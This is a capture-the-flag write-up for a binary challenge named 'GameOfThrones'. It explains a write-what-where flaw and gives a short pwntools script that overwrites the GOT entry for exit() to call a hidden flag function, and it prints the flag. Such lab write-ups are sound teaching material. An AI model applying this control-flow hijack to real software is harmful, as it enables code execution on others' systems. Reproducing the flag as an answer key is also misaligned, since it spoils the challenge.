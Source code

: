 # GameOfThrones

### 📍 Description

Can you write a decent finale for Game of Thrones and get the flag?

### 📄 Rules
- You cannot patch this binary.
- The challenge MUST BE SOLVED by providing appropriate inputs.
- Solutions that jump directly to the print flag function WILL NOT BE CONSIDERED.
- Do not modify the flag.txt file.

## 🔑 Solution

The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that gives us the flag is `show_true_ending()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import * 

context.binary = "./vuln"
e: ELF = context.binary  
p = process()
p.sendline(str(e.got["exit"]).encode("ascii"))
p.sendline(str(e.functions["show_true_ending"].address).encode("ascii"))
log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))
```

### 🚩 Flag

```plain
SPRITZ{GoT_Hijacking_iS_FUn{flag}}
```

